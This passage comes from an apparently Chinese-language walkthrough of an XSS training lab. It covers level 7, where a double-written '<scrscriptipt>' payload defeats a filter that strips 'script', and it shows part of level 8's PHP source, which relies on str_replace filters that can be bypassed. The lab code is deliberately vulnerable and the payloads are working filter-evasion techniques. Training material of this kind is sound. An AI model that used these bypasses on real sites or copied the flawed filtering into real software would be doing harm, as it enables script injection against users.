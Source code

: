 ```php
<center><img src=level7.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>
```



```scss
strtolower() 将字符串转换为小写
```

### 注入过程

正常注入，直接替换为空了，那么其他的也都替换了，大小写也被过滤了。这里因为是替换为空字符，我们可以通过双写注入进行绕过。

payload：



```xml
"><scrscriptipt>alert(1)</scrscriptipt>
```

## Level8 (HTML实体编码绕过)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level9.php?keyword=not bad!"; 
}
</script>
<title>欢迎来到level8</title>
</head>
<body>
<h1 align=center>欢迎来到level8</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
<center><img src=level8.jpg></center>
<?php 
```